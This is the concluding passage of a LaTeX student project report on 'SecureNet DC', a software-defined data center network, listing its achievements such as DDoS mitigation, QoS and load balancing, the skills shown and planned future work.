\end{lstlisting}

\newpage

% =============================================================================
% SECTION 13: CONCLUSION
% =============================================================================
\section{Conclusion}

\subsection{Project Achievements}

SecureNet DC successfully demonstrates a comprehensive implementation of:

\begin{enumerate}
    \item \textbf{Enterprise-Grade Topology:} A fully functional k=4 Fat-Tree data center network with proper layer separation and redundant paths

    \item \textbf{Centralized SDN Control:} Modular Ryu controller with clean architecture supporting multiple concurrent features

    \item \textbf{Real-Time Security:} DDoS detection achieving <3 second response time with automatic mitigation

    \item \textbf{Traffic Engineering:} Four-tier QoS providing 27\% throughput improvement for critical traffic under congestion

    \item \textbf{Intelligent Load Balancing:} VIP-based distribution with even allocation (within 2\% variance)

    \item \textbf{Interactive Visualization:} Web dashboard with real-time topology and statistics
\end{enumerate}

\subsection{Skills Demonstrated}

\begin{itemize}
    \item Network architecture design
    \item SDN/OpenFlow protocol programming
    \item Network security and attack mitigation
    \item Traffic engineering and QoS
    \item Full-stack web development
    \item Performance analysis and benchmarking
    \item Technical documentation
\end{itemize}

\subsection{Future Enhancements}

\begin{itemize}
    \item Machine learning-based anomaly detection
    \item Multi-controller redundancy for high availability
    \item Integration with external SIEM systems
    \item IPv6 support throughout the network
    \item Container-based deployment with Kubernetes
\end{itemize}

\vspace{2cm}

\begin{center}
\fbox{\parbox{0.8\textwidth}{
    \centering
    \textbf{SecureNet DC}\\[0.3cm]
    Building the Next Generation Data Center\\[0.3cm]
    \textit{CPEG 460 - Computer Networks}\\
    \textit{Fall 2025}
}}
\end{center}

\end{document}
